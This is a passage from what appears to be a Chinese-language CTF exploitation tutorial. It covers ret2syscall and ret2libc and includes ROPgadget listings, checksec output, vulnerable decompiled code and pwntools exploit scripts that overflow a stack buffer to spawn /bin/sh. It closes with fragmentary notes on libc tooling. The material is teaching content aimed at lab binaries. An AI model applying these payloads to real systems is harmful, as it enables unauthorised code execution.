0x08096a26 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x14
0x08070d73 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc
0x0805ae81 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4
0x08049bfd : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8
0x08048913 : pop ebx ; pop esi ; pop edi ; ret
0x08049a19 : pop ebx ; pop esi ; pop edi ; ret 4
0x08049a94 : pop ebx ; pop esi ; ret
0x080481c9 : pop ebx ; ret
0x080d7d3c : pop ebx ; ret 0x6f9
0x08099c87 : pop ebx ; ret 8
0x0806eb91 : pop ecx ; pop ebx ; ret
0x0806336b : pop edi ; pop esi ; pop ebx ; ret
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0806eb68 : pop esi ; pop ebx ; pop edx ; ret
0x0805c820 : pop esi ; pop ebx ; ret
0x08050256 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0807b6ed : pop ss ; pop ebx ; ret
```

此外，我们需要获得 /bin/sh 字符串对应的地址

```
➜  ret2syscall ROPgadget --binary rop  --string '/bin/sh' 
Strings information
============================================================
0x080be408 : /bin/sh
```

可以找到对应的地址，此外，还有 int 0x80 的地址，如下

```
➜  ret2syscall ROPgadget --binary rop  --only 'int'                 
Gadgets information
============================================================
0x08049421 : int 0x80
0x080938fe : int 0xbb
0x080869b5 : int 0xf6
0x0807b4d4 : int 0xfc

Unique gadgets found: 4
```

于是写出EXP

```python
sh = process('rop')

pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
binsh = 0x080be408
int80 = 0x08049421

payload = flat(['Z' * 112, pop_eax_ret, 0xB, pop_edx_ecx_ebx_ret, 0, 0, binsh, int80])
sh.sendline(payload)
sh.interactive()
```


### ret2libc

ret2libc 即控制函数的执行 libc 中的函数，通常是返回至某个函数的 plt 处或者函数的具体位置 (即函数对应的 got 表项的内容)。一般情况下，我们会选择执行 system("/bin/sh")，故而此时我们需要知道 system 函数的地址。


**例1**

首先，我们可以检查一下程序的安全保护

```
➜  ret2libc1 checksec ret2libc1    
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

源程序为 32 位，开启了 NX 保护。下面来看一下程序源代码，确定漏洞位置

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("RET2LIBC >_<");
  gets((char *)&v4);
  return 0;
}
```

可以看到在执行 gets 函数的时候出现了栈溢出。此外，利用 ropgadget，我们可以查看是否有 /bin/sh 存在

```
➜  ret2libc1 ROPgadget --binary ret2libc1 --string '/bin/sh'          
Strings information
============================================================
0x08048720 : /bin/sh
```

EXP

```python
sh = process('ret2libc1')

binsh = 0x08048720
system_addr = 0x8048460

payload = flat(['Z' * 112, system_addr, b'Z' * 4, binsh])

sh.sendline(payload)
sh.interactive()
```

这里我们需要**注意函数调用栈的结构**，如果是正常调用 system 函数，我们调用的时候会有一个对应的返回地址，**也就是 call 的时候会将返回地址压栈**，这里以'ZZZZ' 作为虚假的地址，**其后参数对应的参数内容**


```
sudo -H python3 -m pip install -U LibcSearcher

./xclibc -c /home/pz/Desktop/whitegive 2.23 ~/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64
```


puts 底层用的也就是 write


```
pop r15
ret
"\x41\x5f\xc3"


pop rdi
ret
"\x5f\xc3"
```

